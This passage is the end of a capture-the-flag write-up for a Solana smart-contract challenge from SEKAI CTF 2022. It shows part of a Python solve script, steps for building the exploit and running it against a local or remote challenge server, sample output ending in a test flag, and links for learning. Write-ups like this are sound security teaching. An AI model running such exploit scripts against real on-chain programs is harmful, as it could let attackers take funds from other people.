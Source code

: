 ```python 
io.send(ix_data)

# wait for any answer from the server and log it
output = printable(io.recvall()).decode("utf-8")
log.info(output)
```


### run the exploit

1. Build the program with `cargo build-bpf`
2. Run the solve script:
    - run `python solve.py` to run it on a local instance of the server
    - run `python solve.py HOST=<server_addr> PORT=<server_port>` to run it against the real server

The output should look something like this:

```
[+] Opening connection to localhost on port 5000: Done
[*] program: FrMQd67gsyEre7sdoY3SC6sPe3cBq3yHEkpVb9VRTxyo
[*] user: 4CXtoTXu7QLysLSEobV5S4fFg3rV6fhgb3NV6gKbrKLG
[*] useraccount: C1TUKbrBD2xUA3kzQCanB9uMFzEMS4AWjKGcNAqngcmy
[*] character: Gu5KLAKoSjLNb9wFtoE8TaB5DwQoUjNgZQCNm5BMXvJ6
[*] vault: EPpZENNT5qpowQvBDGmvZkPAyCKu4zx3PUwneybkGw1e
[+] Receiving all data: Done (55B)
[*] Closed connection to localhost port 5000
[*]
    lamports: 49997
    your did it!
    Flag: SEKAI{test_flag}
```

For all the files check out the [github repo](https://github.com/barsa2000/sekai2022_gft)

## To learn more abount solana

- [solana cookbook](https://solanacookbook.com) - Essential concepts
- [solana sdk for rust](https://docs.rs/solana-sdk/latest/solana_sdk/)
- [Developement docs](https://docs.solana.com/developers)
- [neodyme workshop](https://workshop.neodyme.io/index.html) - A security workshop to start learning different types of issues
